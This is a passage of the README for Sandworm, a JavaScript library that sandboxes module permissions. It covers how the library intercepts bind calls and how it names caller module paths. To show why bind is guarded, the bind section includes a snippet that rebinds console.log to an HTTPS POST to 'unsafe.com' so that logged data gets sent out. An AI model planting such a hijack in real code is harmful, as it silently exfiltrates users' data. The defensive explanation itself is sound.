 ### `bind` Calls

For all intercepted methods, Sandworm will also capture and enforce access to `method.bind` **whenever it is called with more than one argument**. The reason behind this is that using `bind` to partially apply arguments creates contained methods that can then float around until they get executed by another module. For example:

```javascript
// Say we're a module that doesn't have `https.request` access
// but we want to post some stolen data to our server.
// We can create a custom method with the proper arguments using `bind`
// and then we can use it to replace a common js function.
// Sandworm will require the `bind.args` permission to allow this.
console.log = https.request.bind(this, {
  hostname: 'unsafe.com',
  port: 443,
  path: '/ingest',
  method: 'POST'
});

// Now we just wait for root to log anything
```

## Caller Module Paths

Sandworm-detected module names reflect the entire code path that led to invoking a method, from your app's level down to the actual module executing the method.

Let's say your app imports a module named `test-libB`, which depends on a method from a separate module, `test-libA`, which in turn ends up using `axios` to make an HTTP request. Internally, `axios` uses the `follow-redirects` module as a drop-in replacement for Node's `http` and `https` modules that automatically follows redirects. In this case, you should expect to see the following module name requesting to use the `https.request` permission:

```
test-libB>test-libA>axios>follow-redirects
```

Sandworm uses this path structure to create a proper security model. For example, let's say we want to grant permissions to the call described above:

* Since it initiated the call chain, we could directly grant access to the `test-libB` module. But this would enable **any of `test-libB`'s dependencies** to piggyback on this permission to execute malicious calls.
* We could also directly grant access to `follow-redirects`, but then we are effectively enabling any module in our app to use it for making any requests, including potentially malicious ones.
* The safest option is to grant explicit permissions to explicit module paths, like the one above:

```javascript
Sandworm.init({
    devMode: process.env.NODE_ENV === 'development',
    permissions: [{module: 'test-libB>test-libA>axios>follow-redirects', permissions: ['https.request', 'tls.connect', 'tls.createSecureContext', 'net.Socket', 'dns.lookup']}],
});
```


[npm-version-image]: https://img.shields.io/npm/v/sandworm?style=flat-square
[npm-version-url]: https://www.npmjs.com/package/sandworm
[license-image]: https://img.shields.io/npm/l/sandworm?style=flat-square
[license-url]: https://github.com/sandworm-hq/sandworm-js-monitor/blob/main/LICENSE
[ci-image]: https://img.shields.io/circleci/build/github/sandworm-hq/sandworm-js-monitor?style=flat-square
[ci-url]: https://app.circleci.com/pipelines/github/sandworm-hq/sandworm-js-monitor
[cc-image]: https://api.codeclimate.com/v1/badges/edff60f7f06bb0c589aa/maintainability
[cc-url]: https://codeclimate.com/github/sandworm-hq/sandworm-js-monitor/maintainability
[coverage-image]: https://api.codeclimate.com/v1/badges/edff60f7f06bb0c589aa/test_coverage
[coverage-url]: https://codeclimate.com/github/sandworm-hq/sandworm-js-monitor/test_coverage